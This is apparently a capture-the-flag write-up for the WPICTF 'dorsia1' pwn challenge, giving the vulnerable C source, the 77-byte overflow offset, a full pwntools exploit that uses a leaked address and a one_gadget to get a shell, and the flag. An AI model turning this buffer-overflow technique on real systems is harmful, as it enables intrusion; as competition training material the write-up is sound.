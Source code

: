 # dorsia1 Writeup by Srdnlen
## Category: PWN

## Description
http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm The first card.

nc dorsia1.wpictf.xyz 31337 or 31338 or 31339

made by: awg

Hint: Same libc as dorsia4, but you shouldn't need the file to solve.
Hint2: 'A' * 77

## Source Code

```C
#include <stdio.h>
#include <stdlib.h>

void main() {
    char a[69];
    printf("%p\n",system+765772);
    fgets(a,96,stdin); 
}
```

## Writeup
This looks like a very typical buffer overflow challenge... However, our exploits just didn't work. Why?

The great minds at WPICTF decided to disable stack alignment for this challenge. We were using 88 bytes of garbage, but actually it's 77, as the second hint suggests. 69 + 8 for rbp. 

Let's use `one_gadget` on the libc (from dorsia4) and it's done.


```
from pwn import *

p = remote('dorsia1.wpictf.xyz', 31339)
e = ELF('./libc.so.6')

# Leak addresses
leak = int(p.recvline(), 16)
system = leak - 765772
libc = system - e.sym['__libc_system']
one_gadget = libc + 0x4f322
padding = b'A' * 77

# Info
print('Libc: ', hex(libc))
print('System: ', hex(system))

# Send the one_gadget and get flag ez
p.sendline(padding + p64(one_gadget))
p.interactive()
```


## Flag
`WPI{FEED_ME_A_STRAY_CAT}`
